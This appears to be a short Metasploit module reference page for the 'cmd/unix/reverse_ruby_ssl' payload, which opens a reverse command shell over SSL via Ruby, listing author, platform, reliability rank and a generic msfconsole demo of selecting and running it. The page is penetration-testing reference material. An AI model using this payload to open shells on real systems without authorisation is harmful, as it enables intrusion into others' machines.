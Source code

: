 ## Unix Command Shell, Reverse TCP SSL (via Ruby)

Connect back and create a command shell via Ruby, uses SSL


## Module Name
payload/cmd/unix/reverse_ruby_ssl

## Authors
RageLtMan





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_ruby_ssl
msf payload(reverse_ruby_ssl) > show targets
   ... a list of targets ...
msf payload(reverse_ruby_ssl) > set TARGET <target-id>
msf payload(reverse_ruby_ssl) > show options
   ... show and set options ...
msf payload(reverse_ruby_ssl) > run
```
    
    